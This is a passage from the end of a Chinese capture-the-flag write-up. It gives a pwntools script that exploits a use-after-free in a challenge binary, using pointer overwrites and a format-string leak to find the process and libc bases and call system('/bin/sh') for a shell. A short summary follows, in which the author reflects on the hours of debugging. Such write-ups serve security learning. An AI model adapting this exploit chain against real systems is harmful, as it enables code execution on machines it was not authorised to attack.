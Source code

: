 ```python


create(4, b'aa')  # 0
create(4, b'aa')  # 1
delete(1)
delete(0)
create(0x20, b'a'*0x10 + b'b'*0x08 + b'\x7C' + b'\x00')
delete(1)  # -> call _puts
sh.recvuntil(b"b"*0x08)
proc_base = u64(sh.recvline()[:-1].ljust(8, b'\x00')) - 0x147C
print(hex(proc_base))
printf = proc_base + 0x150E
delete(0)

create(0x20, b'Nova%17$pNoir' + b'b'*(0x18-len(b'Nova%17$pNoir')) + p64(printf))
delete(1)
sh.recvuntil(b"Nova")

printf_addr = sh.recvuntil(b"Noir", drop=True)
printf_addr = int(printf_addr, 16) - 153
libc_base = printf_addr - 0x55810
system_addr = libc_base + 0x453a0
print(">>>", hex(printf_addr))
sh.sendline(b"")
sh.sendline(b"")

delete(0)
create(0x20, b'/bin/sh;' + b'b'*(0x18-len(b'/bin/sh;')) + p64(system_addr))
delete(1)
sh.interactive()

```

# 总结

算是第一个比较综合的`UAF`的题，搞了六七个小时，期间去看了那个`DynELF`的用法，调了很久的`movaps`，但是最后都没出来，然后还是用了比较常规的方法捏。最后打出来了，可喜可贺可喜可贺



